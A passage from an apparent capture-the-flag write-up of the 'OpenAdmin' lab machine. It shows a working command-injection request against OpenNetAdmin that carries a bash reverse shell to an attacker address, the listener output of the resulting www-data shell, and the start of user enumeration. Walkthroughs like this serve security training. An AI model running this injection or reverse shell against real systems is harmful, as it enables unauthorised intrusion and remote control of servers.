             </td>
        </tr>
    </table>
    
    ...[snip]...
    

I can see the output of `id` at the end of the `Module Output` section. The
exploit from the site just adds an `echo` before and after the command the
user runs and then uses `sed` to cut out the command output and ignore the
rest. I could do this myself, but I’ll just get a reverse shell and leave that
as an exercise for the motivated reader.

### Shell

Since I want a legit shell, I’ll use curl to push a `bash` reverse shell:

    
    
    root@kali# curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.14.11/443 0>%261'&xajaxargs[]=ping"  http
    ://10.10.10.171/ona/
    

It hangs, but in my `nc` listener, I’ve got a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.171.
    Ncat: Connection from 10.10.10.171:40352.
    bash: cannot set terminal process group (1004): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@openadmin:/opt/ona/www$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Priv: www-data –> jimmy

### Enumeration

On the box, I can see two user home directories, but I can’t read into either
of them as www-data:

    
    
    www-data@openadmin:/home$ ls
    jimmy  joanna      
    
    www-data@openadmin:/home$ find .
    .
    ./jimmy
    find: './jimmy': Permission denied
    ./joanna
    find: './joanna': Permission denied  
    